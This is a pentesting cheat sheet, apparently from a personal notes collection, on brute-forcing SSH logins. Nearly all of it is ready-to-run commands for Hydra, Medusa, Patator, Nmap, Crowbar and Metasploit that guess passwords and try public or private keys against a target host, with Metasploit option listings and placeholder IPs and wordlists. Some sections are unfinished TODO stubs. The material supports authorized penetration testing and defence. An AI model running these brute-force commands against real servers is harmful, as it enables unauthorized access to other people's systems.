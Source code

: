 # SSH

## 01 - Bruteforce Passwords

### 1.1 - Hydra

```
$ hydra ssh -U

$ hydra -l <username> -P passwords.lst ssh://<IP>
```

### 1.2 - Medusa

```
$ medusa -h <IP> -u <username> -p <password> -M ssh
```

### 1.3 - Patator

```
$ patator ssh_login -t <int> host=<IP> port=22 user=<username> password=FILE0 0=passwords.lst -x ignore:mesg='Authentication failed.'
```

### 1.4 - Nmap

```
$ nmap -p 22 -Pn -n --script ssh-brute --script-args "userdb=users.lst,passdb=pass.lst,ssh-brute.timeout=<seconds>s" <IP>
```

### 1.5 - Metasploit

TODO: Fill this info

- Bruteforce SSH credentials

```
msf > use auxiliary/scanner/ssh/ssh_login

msf auxiliary(scanner/ssh/ssh_login) > options

msf auxiliary(scanner/ssh/ssh_login) > set
```

## 02 - Bruteforce SSH Keys

### 2.1 - Public SSH Keys

#### 2.1.1 - Nmap

```
$ nmap -p 22 -Pn -n --script ssh-publickey-acceptance --script-args "ssh.usernames={'root', 'user'},publickeys={'./id_rsa1.pub', './id_rsa2.pub'}" <IP>
```

#### 2.1.2 - Metasploit

Note: Any file extension that ends with `.pub`.

```
msf > use auxiliary/scanner/ssh/ssh_identify_pubkeys

msf auxiliary(scanner/ssh/ssh_identify_pubkeys) > options

Module options (auxiliary/scanner/ssh/ssh_identify_pubkeys):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   KEY_FILE                           yes       Filename of one or several cleartext public keys.
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME                           no        A specific username to authenticate as
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts

msf auxiliary(scanner/ssh/ssh_identify_pubkeys) > set user_file /path/to/users.lst

msf auxiliary(scanner/ssh/ssh_identify_pubkeys) > set key_file /path/to/ssh_public_key.pub

msf auxiliary(scanner/ssh/ssh_identify_pubkeys) > set rhosts <IP>

msf auxiliary(scanner/ssh/ssh_identify_pubkeys) > set rport <PORT>

msf auxiliary(scanner/ssh/ssh_identify_pubkeys) > set threads 4

msf auxiliary(scanner/ssh/ssh_identify_pubkeys) > run -j
```

### 2.2 - Private SSH Keys

#### 2.2.1 - Hydra

TODO: Provide a syntax to bruteforce ssh keys

```
$ hydra sshkey -U
```

#### 2.2.2 - Crowbar

TODO: Provide a syntax of sshkey to brute force targets with crowbar

```
$ crowbar -b sshkey -s <IP>/32 -u <username> -k /path/to/ssh_key_file
```

#### 2.2.3 - Nmap

```
$ nmap -p 22 -Pn -n --script ssh-publickey-acceptance --script-args "ssh.usernames={'root', 'user'}, ssh.privatekeys={'./id_rsa1', './id_rsa2'}" <IP>
```

#### 2.2.4 - Metasploit

```
msf post(multi/gather/ssh_creds) > use auxiliary/scanner/ssh/ssh_login_pubkey

msf auxiliary(scanner/ssh/ssh_login_pubkey) > options

Module options (auxiliary/scanner/ssh/ssh_login_pubkey):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   KEY_PASS                           no        Passphrase for SSH private key(s)
   KEY_PATH                           no        Filename or directory of cleartext private keys. Filenames beginning with a dot, or ending in ".pub
                                                " will be skipped. Duplicate private keys will be ignored.
   PRIVATE_KEY                        no        The string value of the private key that will be used. If you are using MSFConsole, this value shou
                                                ld be set as file:PRIVATE_KEY_PATH. OpenSSH, RSA, DSA, and ECDSA private keys are supported.
   RHOSTS                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME                           no        A specific username to authenticate as
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts

msf auxiliary(scanner/ssh/ssh_login_pubkey) > set username <username>

msf auxiliary(scanner/ssh/ssh_login_pubkey) > set private_key file:/path/to/ssh_key

msf auxiliary(scanner/ssh/ssh_login_pubkey) > set key_pass <passphrase>

msf auxiliary(scanner/ssh/ssh_login_pubkey) > set rhosts <IP>

msf auxiliary(scanner/ssh/ssh_login_pubkey) > set rport <PORT>

msf auxiliary(scanner/ssh/ssh_login_pubkey) > set threads <int>

msf auxiliary(scanner/ssh/ssh_login_pubkey) > set stop_on_success <true | false>

msf auxiliary(scanner/ssh/ssh_login_pubkey) > run -j
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xD - Password Cracking/Online/Tools/Crowbar|Crowbar]]

- [Null Byte: Gain SSH Access to Servers by Brute-Forcing Credentials](https://null-byte.wonderhowto.com/how-to/gain-ssh-access-servers-by-brute-forcing-credentials-0194263/)

- [Hacking Articles: Nmap for Pentester Password Cracking](https://www.hackingarticles.in/nmap-for-pentester-password-cracking/)

- [Hacking Articles: SSH Penetration Testing](https://www.hackingarticles.in/ssh-penetration-testing-port-22/)

- [Rapid7: Metasploit Framework - Auxiliary Scanner SSH Login Pubkey](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/scanner/ssh/ssh_login_pubkey.md)